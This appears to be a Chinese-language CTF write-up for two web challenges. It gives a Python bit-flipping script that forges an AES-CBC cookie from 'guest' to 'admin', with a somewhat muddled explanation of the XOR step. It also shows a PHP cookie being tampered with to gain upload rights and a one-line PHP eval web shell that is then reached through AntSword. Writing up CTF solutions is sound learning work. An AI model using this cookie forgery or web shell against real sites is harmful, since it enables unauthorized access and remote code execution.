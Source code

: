 # **WEB**

## checkin（whocansee）

 分析源码得知cookie是用AES与CBC分组模式加密的，由于key未知不能直接用题给源码改明文后加密，故利用xor的性质写出解密脚本。

from Crypto.Cipher import AES /**/此处报错则检查是否安装Crypto库，是否把装好的Crypto文件夹名称首字母大写**
import binascii
import base64
import json
ciphertext = "originalcookie"
ciphertext = base64.b64decode(ciphertext)
ciphertext = list(ciphertext)
ciphertext[n] = ciphertext[n]^ ord('g') ^ ord('a')
ciphertext[n+1] = ciphertext[n+1]^ ord('u') ^ ord('d')
ciphertext[n+2] = ciphertext[n+2]^ ord('e') ^ ord('m')
ciphertext[n+3] = ciphertext[n+3]^ ord('s') ^ ord('i')
ciphertext[n+4] = ciphertext[n+4]^ ord('t') ^ ord('n')
print(base64.b64encode(bytes(ciphertext)))

n的值为想要修改的字符（此处是g,u,e,s,t）在明文字符串中的位置，这里是按照1开始计算的，比如g是第十一个，n就为11. 实际的操作是**修改后的字符** = **修改前的字符** 和 **它前一个修改前的字符**xor运算 再和 **它前一个修改后的字符**做xor运算。

## **include（whocansee）**

用BrupSuite抓包，给cookie进行base64解码，直接能看到明文，修改明文最后那个s:7:tourist为s:5:Lteam后再给编码回去，修改原cookie，获得上传权限，传个一句话木马上去   <?php @eval($_POST['flag']);?> 发现连路径都给了，于是直接拿Antsword连接，在根目录拿到flag。

